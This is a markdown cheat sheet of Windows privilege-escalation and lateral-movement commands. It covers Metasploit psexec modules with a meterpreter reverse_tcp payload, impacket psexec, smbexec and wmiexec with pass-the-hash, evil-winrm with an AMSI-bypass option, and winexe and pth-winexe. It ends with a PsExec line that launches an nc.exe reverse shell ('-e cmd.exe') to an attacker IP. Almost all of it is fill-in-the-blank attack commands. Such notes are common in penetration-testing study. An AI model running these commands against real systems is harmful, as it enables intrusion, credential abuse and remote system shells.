 # privesc tools

## check if win-logon-creds are working

Note: psexec & evil-winrm uses port:5985 (powershell remote access)

### msf

* `use exploit/windows/smb/psexec`
    * `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    * `SHOW TARGETS` > `set TARGET X`
* `use exploit/windows/smb/psexec_psh`

### psexec | smbexec | wmiexec

NOTE: psexec, smbexec will give SYSTEM shell. wmiexec will give user shell.

```bash
impacket-psexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-smbexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-wmiexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
```

### evil-winrm

```bash
# only USER, no DOMAIN needed
evil-winrm -i IP -u <USER> [-H NT-HASH | -p PASS]

# custom options
PS> menu
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
```

### winexe

```bash
winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# --system needs local admin hash
pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s SHELL.exe
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" SHELL.exe
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u USER -p PASS nc.exe IP PORT -e cmd.exe
```
